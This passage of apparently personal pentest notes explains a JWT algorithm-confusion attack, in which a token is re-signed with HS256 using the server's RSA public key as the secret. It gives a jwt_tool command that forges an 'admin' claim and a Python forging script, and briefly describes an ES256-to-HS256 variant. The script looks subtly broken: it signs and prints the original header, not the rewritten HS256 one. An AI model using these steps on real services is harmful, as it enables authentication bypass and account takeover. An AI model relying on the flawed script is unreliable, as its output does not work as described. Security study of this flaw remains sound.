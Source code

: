 Once you have the public key in a suitable format, you can [modify the JWT](https://portswigger.net/web-security/jwt/working-with-jwts-in-burp-suite#editing-the-contents-of-jwts) however you like. Just make sure that the `alg` header is set to `HS256`.

### → **4. Sign the JWT using the public key**

[Sign the token](https://portswigger.net/web-security/jwt/working-with-jwts-in-burp-suite#signing-jwts) using the HS256 algorithm with the RSA public key as the secret.

### → Tools

- https://github.com/ticarpi/jwt_tool is a very powerful tool
    
    ```bash
    python3 jwt_tool.py "token" -X k -I -pc username pv admin -pk $public_key_file
    ```
    
    - `-X k` key confusion
- simple script
    
    ```python
    import hmac
    import base64
    import hashlib
    from sys import argv
    
    if len(argv) != 3:
        print(f'Usage: {argv[0]} <Tampered JWT> <public_key_file>')
        exit(1)
    
    tampered_token = argv[1]
    with open(argv[2], 'r') as file:
        public_key = file.read()
        
    
    print('you should edit the payload to your needs (e.g. change the username')
    
    header, payload, _ = tampered_token.split('.')
    
    # decode the header
    dec_header = base64.urlsafe_b64decode(header + '=' * (-len(header) % 4)).decode('utf-8').replace('RS256', 'HS256')
    enc_header = base64.urlsafe_b64encode(bytes(dec_header, 'utf-8')).decode('utf-8').replace('=', '')
    print(enc_header)
    
    signature = base64.urlsafe_b64encode(hmac.new(bytes(public_key, 'utf-8'), bytes(f'{header}.{payload}', 'utf-8'), hashlib.sha256).digest()).decode('utf-8').replace('=', '')
    
    print(f'{header}.{payload}.{signature}')
    ```
    

### → Another algorithm confusion example (ECDSA to HS256)

In practice, you can change the algorithm used by the application (ECDSA - **ES256**) to tell it to use HMAC (**HS256**).
The application will call the method **verify** when you send the cookie. Since the code is written to use ECDSA, it will call **verify(public_key, data)**.
But since the algorithm is set to HMAC, it will end up calling **HMAC(public_key,data)**.
The application will verify the signature with the public key but since you are forcing the application to use HMAC, it will actually verify the signature with **HMAC(public_key, data)**.
As an attacker, you will need to recover potential public keys from a valid signature and then try them
